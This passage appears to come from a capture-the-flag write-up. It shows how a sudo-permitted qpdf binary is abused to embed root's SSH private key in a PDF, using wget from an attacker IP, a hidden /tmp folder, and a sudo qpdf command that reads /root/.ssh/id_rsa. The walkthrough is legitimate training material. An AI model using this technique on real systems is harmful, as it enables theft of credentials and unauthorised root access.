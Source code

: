 There is one option that particularly stands out to us: `add-attachment`. We can attach the SSH private key of the root user.

First, we need to investigate the help for the `add-attachment` parameter to use it correctly.

```
sudo qpdf --help=add-attachment

The options listed below appear between --add-attachment and its
terminating "--".

Related options:
  --creationdate: set attachment's creation date
  --description: set attachment's description
  --filename: set attachment's displayed filename
  --key: specify attachment key
  --mimetype: attachment mime type, e.g. application/pdf
  --moddate: set attachment's modification date
  --replace: replace attachment with same key

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```

To start, we will download a test PDF to our local machine and start a server in Python to transfer it to the victim machine.

```
wget https://pdfobject.com/pdf/sample.pdf
python3 -m http.server 80
```

On the victim machine, we download this PDF to a folder in `/tmp`.

```
mkdir /tmp/.delo
cd !$
wget http://10.10.14.124/sample.pdf
```

Now we can attach the file `/root/.ssh/id_rsa` to the PDF.

```
sudo qpdf sample.pdf --add-attachment /root/.ssh/id_rsa -- root-id_rsa.pdf
```

We now have the file `root-id_rsa.pdf`, we just need to find a way to read it and use it to authenticate as root.

```
sudo qpdf --help=attachments

It is possible to list, add, or delete embedded files (also known
as attachments) and to copy attachments from other files. See help
on individual options for details. Run qpdf --help=add-attachment
for additional details about adding attachments. See also
--help=--list-attachments and --help=--show-attachment.

Related options:
  --add-attachment: start add attachment options
  --copy-attachments-from: start copy attachment options
  --remove-attachment: remove an embedded file

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```
